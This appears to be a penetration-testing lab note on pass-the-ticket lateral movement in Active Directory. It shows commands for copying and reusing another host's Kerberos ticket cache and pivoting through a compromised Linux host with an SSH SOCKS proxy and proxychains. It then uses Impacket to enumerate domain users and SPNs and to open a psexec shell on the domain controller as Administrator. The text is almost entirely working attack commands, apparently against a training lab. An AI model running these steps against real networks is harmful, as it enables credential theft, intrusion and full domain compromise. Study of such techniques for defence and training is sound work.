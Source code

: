 ```shell
kvno MSSQLSvc/DC01.corp1.com:1433
klist
```

&nbsp;
<span style="font-size: 25px; color:white"><b>Using Kerberos with Impackets</b></span>
After copying the ccache file from another host:
```shell
export KRB5CCNAME=/tmp/krb5cc_minenow
```
Add the general domain and the dc to <span style="color:red">/etc/hosts</span>.
We'll need to setup a SOCKS proxy on linuxvictim and use proxychains on Kali to pivot through the domain joined host when interacting with Kerberos:

In <span style="color:red">/etc/proxychains.conf</span>, comment out the line for <span style="color:red">proxy_dns</span>:
```
...
# Proxy DNS requests - no leak for DNS data
#proxy_dns 
..
```
Once these settings are in place, we need to set up a SOCKS server using ssh on the server we copied the ccache file from:
```
ssh <user>@<domain> -D 9050
```
The -D parameter specifies the port we'll be using for proxychains (defined in /etc/proxychains.conf) in order to tunnel Kerberos requests.

At this point, for example:
- List domain users:
```shell
proxychains python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -all -k -no-pass -dc-ip 192.168.120.5 CORP1.COM/Administrator
```
- List SPNs available to out kerberos:
```shell
proxychains python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -k -no-pass -dc-ip 192.168.120.5 CORP1.COM/Administrator
```
- Gain a shell over the server:
```shell
proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py Administrator@DC01.CORP1.COM -k -no-pass
```

